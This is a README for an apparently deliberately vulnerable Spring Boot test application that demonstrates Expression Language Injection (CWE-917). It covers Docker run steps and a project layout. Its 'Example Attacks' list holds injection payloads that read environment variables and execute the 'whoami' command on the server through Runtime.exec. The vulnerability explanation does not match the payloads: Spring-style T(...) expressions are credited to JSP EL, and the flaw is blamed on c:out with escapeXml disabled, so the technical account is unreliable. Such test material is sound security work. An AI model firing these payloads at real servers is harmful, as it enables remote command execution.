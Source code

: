 # Test 75 - CWE-917: Expression Language Injection

A Spring Boot web application that demonstrates CWE-917 (Expression Language Injection) using JSP EL templates.

## Running the Application

### Using Docker
```bash
docker build -t test-75-web .
docker run -p 8080:80 test-75-web
```

## Usage

1. Access the application at http://localhost:8080
2. Enter JSP EL expressions in the form
3. Submit to see the expressions evaluated on the server

## Example Attacks

- `7*7` - Basic expression evaluation
- `T(java.lang.System).getProperty('java.version')` - Java version
- `T(java.lang.System).getenv('PATH')` - Environment variables
- `new String(T(java.lang.Runtime).getRuntime().exec('whoami').getInputStream().readAllBytes())` - Command execution

## Project Structure

```
src/
└── main/
    ├── java/
    │   └── com/vulnerable/
    │       ├── Test75WebApplication.java    # Main application class
    │       ├── VulnerableController.java    # Controller with vulnerable endpoint
    │       └── WebConfig.java               # JSP view resolver config
    └── webapp/
        └── WEB-INF/
            └── jsp/
                ├── index.jsp               # Input form
                └── result.jsp              # Vulnerable result page
```

## Vulnerability Details

The application uses `<c:out value="${userInput}" escapeXml="false"/>` in the result JSP, which processes user input through JSP EL without sanitization, allowing Expression Language Injection (CWE-917). 